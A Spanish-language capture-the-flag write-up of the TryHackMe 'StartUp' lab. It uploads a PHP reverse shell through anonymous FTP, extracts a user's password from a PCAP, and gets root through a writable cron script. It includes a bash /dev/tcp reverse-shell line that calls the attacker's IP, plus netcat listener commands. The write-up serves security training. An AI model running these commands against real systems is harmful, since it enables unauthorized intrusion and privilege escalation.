TryHackMe
Easy
Linux
FTP
PHP Upload
PCAP
Cron
pspy
StartUp
FTP anonimo permite subir PHP shell a directorio web; contrasena en PCAP; escalada via script cron escribible.
cat4clysm
Herramientas utilizadas
nmap
ftp
wfuzz
netcat
pspy
Scanning
root@kali:~$
nmap -sC -sV -p 21,22,80 -Pn -n 10.10.218.21 -oN targeted
FTP Anonimo + Carpeta Web
root@kali:~$
# FTP anonimo con permisos de escritura
ftp 10.10.218.21
root@kali:~$
wfuzz -c --hc 404,403 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100 -u 'http://10.10.218.21/FUZZ'
La carpeta /files es la misma que la de FTP. Subimos reverse shell PHP:
root@kali:~$
cp /usr/share/webshells/php/php-reverse-shell.php shell.php
# Editamos IP y puerto

Reverse Shell
root@kali:~$
nc -lvp 4444

Analisis PCAP - Contrasena lennie
root@kali:~$
strings suspicious.pcapng
# Contrasena: c4ntg3t3n0ughsp1c3
ssh lennie@10.10.129.101Escalada - Cron Script Escribible

root@kali:~$
# /etc/print.sh es escribible y ejecutado por root via cron
echo 'bash -i >& /dev/tcp/10.13.13.243/4444 0>&1' > /etc/print.sh
root@kali:~$
nc -lvp 4444
Lecciones aprendidas
- FTP anonimo con escritura al directorio raiz web permite subir y ejecutar shells directamente.
- El analisis de strings en PCAPs es una tecnica rapida para extraer credenciales de capturas.
- Los scripts en directorios escribibles ejecutados por cron como root son vectores de escalada criticos.